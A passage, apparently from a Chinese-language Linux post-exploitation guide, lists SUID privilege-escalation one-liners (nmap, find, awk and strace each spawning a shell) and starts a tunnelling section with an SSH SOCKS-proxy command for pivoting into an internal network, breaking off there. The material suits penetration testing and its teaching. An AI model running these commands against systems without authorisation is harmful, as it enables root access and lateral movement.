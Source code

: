 ![image-20201209154404269](assets/1700701638-8a2b1e05382e7a0670934cc4e142460b.png)  
下面列举几个常见的设置了SUID的应用程序提权手段。

-   nmap
    
    1.  `nmap --interactive`
    2.  `!sh`
    
-   find
    
    ```python
    find . -type f -exec /bin/bash \;
    ```
    
-   awk
    
    ```sql
    awk 'BEGIN {system("/bin/bash")}'
    ```
    
-   strace
    
    ```coffeescript
    strace -o/dev/null /bin/bash
    ```
    

# 隧道

Linux上可以利用自带和第三方工具进行隧道开启，利用隧道，我们可以建立Socks连接、端口转发等操作。

## SSH

Linux上耳熟能详的就是SSH了，我们来看下SSH常用的开启隧道的命令。

-   场景a：在控制A机器时，利用socks代理进入A机器所在内网
    
    1.  `ssh -qTfnN -D 1111 [root@1.1.1](mailto:root@1.1.1).1`
    